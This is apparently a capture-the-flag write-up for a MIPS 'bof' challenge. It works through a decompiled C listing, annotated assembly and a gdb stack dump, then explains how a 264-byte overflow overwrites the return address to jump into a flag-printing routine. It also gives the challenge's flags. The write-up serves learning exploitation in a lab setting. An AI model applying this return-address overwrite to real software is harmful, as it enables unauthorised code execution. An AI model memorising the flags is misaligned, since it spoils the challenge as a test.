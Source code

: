 This attachment is a zip file containing a `bof` binary and a `console.c` source file. The description for the task also includes the text `buffer-overflow.ctfcompetition.com 1337`. Looking at the source file, we see that the binary `bof` is run using qemu and then we have to send input into that program and cause it to crash. There is also a bonus flag if we can cause a controlled crash. To test locally I just ran `qemu-mipsel bof` which runs the program and shows the prompt `Cauliflower systems never crash >>`. Entering text into the prompt just closes it. Since the goal was to use a buffer overflow I decided to just input a lot of text into the program and with a long enough input, a segfault is created. Now all we have to do is try in on the actual program. So we connect to the server provided in the task `nc buffer-overflow.ctfcompetition.com 1337`, enter `run` then enter our long string of input. After a successful crash, it prints out the flag `CTF{Why_does_cauliflower_threaten_us}`

Since there is another flag, I decided to take a look at decompiling the `bof` binary. For this I used `ghidra`. Since I don't have much experience with this, it was quite difficult to figure out everything, but after playing around with it for a while this was what I figured out. This is what I figured out about what the program looks like
```c
int main(void)
{
  sighandler_t prevHandler;
  int returnVal;
  byte buffer[260];

  prevHandler = signal(SIGSEGV, segfault_handler);
  if (prevHandler == -1) {
    printf("An error occurred setting a signal handler.");
    returnVal = -1;
  } else {
    puts("Cauliflower systems never crash >>");
    scanf("%s", &buffer);
    returnVal = 0;
  }
  return returnVal;
}

void segfault_handler(void)
{
  printf("segfault detected! ***CRASH***");
  print_file("flag");
  exit(0);
}

void print_file(char *filename)
{
  int fileDescriptor;
  char buffer[4];
  int bytesRead;

  fileDescriptor = open(filename, O_RDONLY);
  if (fileDescriptor == -1) {
    puts("could not open flag");
    exit(1);
  }
  while ((bytesRead = read(fileDescriptor, &buffer, 1)) == 1) {
    write(STDOUT_FILENO, &buffer, 1);
  }
  close(fileDescriptor);
  return;
}
```

You can see that it does a `scanf` into a buffer of size 260. Therefore if we input something that is greater that `260 + 4 (frame pointer)` bytes, we should get a segfault because then we overwrite the return address. The `segfault-payload` file contains the data for causing a segfault.

```
Stack
+---------------------------+ High
|Previous frame             |
|                           |
+---------------------------+
|Return address             |
+---------------------------+
|Buffer                     |
|                           |
|                           |
|                           |
|                           |
+---------------------------+
|return value               |
+---------------------------+
|signal_handler             |
+---------------------------+ Low
```

Notice that there is no sign of the hidden flag in there. That was because ghidra removed an unreachable block. If we look at the assembly instead we can see the hidden block.
```mips
004009bc 60 1f 11 04     bal        scanf                                            ;call scanf()
004009c0 00 00 00 00     _nop                                                        ;branch delay slot
004009c4 10 00 dc 8f     lw         gp,0x10(s8)                                      ;??
004009c8 18 00 c2 8f     lw         returnVal,0x18(s8)                               ;load word into returnVal
004009cc 07 00 40 14     bne        returnVal,zero,setNormalReturnValue              ;this jump skips over the get hidden flag section
004009d0 00 00 00 00     _nop
                        getHiddenFlag
004009d4 30 80 82 8f     lw         returnVal,-0x7fd0(gp)
004009d8 40 08 42 24     addiu      returnVal,returnVal,0x840
004009dc 25 c8 40 00     or         t9,returnVal,zero
004009e0 97 ff 11 04     bal        local_flag                                       ;local_flag()
004009e4 00 00 00 00     _nop                                                        ;branch delay slot
004009e8 10 00 dc 8f     lw         gp,0x10(s8)
                        setNormalReturnValue
004009ec 25 10 00 00     or         returnVal,zero,zero
                        exit
004009f0 25 e8 c0 03     or         sp,s8,zero
004009f4 24 01 bf 8f     lw         ra,0x124(sp)
004009f8 20 01 be 8f     lw         s8,0x120(sp)
004009fc 28 01 bd 27     addiu      sp,sp,0x128
00400a00 08 00 e0 03     jr         ra
00400a04 00 00 00 00     _nop
```

And this is the print local function
```c
void local_flag(void)
{
  print_file("flag1");
  exit(0);
}
```

To get a better picture of what is happening, I used qemu with the gdb debugger to step examine the stack frame.
```
> qemu-mipsel-static -g 5555 bof
> gdb-multiarch
> (gdb) target remote localhost:5555
```

We can then set a breakpoint after `scanf`
> (gdb) b *0x004009c4

Then print out information. Here was the information from the gdb session
```
(gdb) i frame                                                             
Stack level 0, frame at 0x7fffd8f0:                                       
 pc = 0x4009c4 in main; saved pc = 0x400840                               
 Arglist at 0x7fffd8f0, args:                                             
 Locals at 0x7fffd8f0, Previous frame's sp is 0x7fffd8f0                  
 Saved registers:                                                         
  gp at 0x7fffd7d8, s8 at 0x7fffd8e8, ra at 0x7fffd8ec, pc at 0x7fffd8ec  
(gdb) x/100xw $sp                                                         
0x7fffd7c8:     0x00000060      0x7fffd7e4      0x00000001      0x00000000
0x7fffd7d8:     0x004a8970      0x00000000      0x00000001      0xaaaaaaaa
0x7fffd7e8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd7f8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd808:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd818:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd828:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd838:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd848:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd858:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd868:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd878:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd888:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd898:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8a8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8b8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8c8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8d8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8e8:     0xaaaaaaaa      0x00400840 <-- return address
```

From here I tried overwriting the return address to point to the `read_local` function. Writing to the start of the function `0x00400840` successfuly jumped to the function but when it entered the `print_file` subroutine it crashed. Still not sure about why this happens. Instead, I skipped over some of the setup in the function and jumped to the address `0x00400860` which is where the stack is being setup for the call into `print_file`. This worked as the flag `CTF{controlled_crash_causes_conditional_correspondence}` was printed out.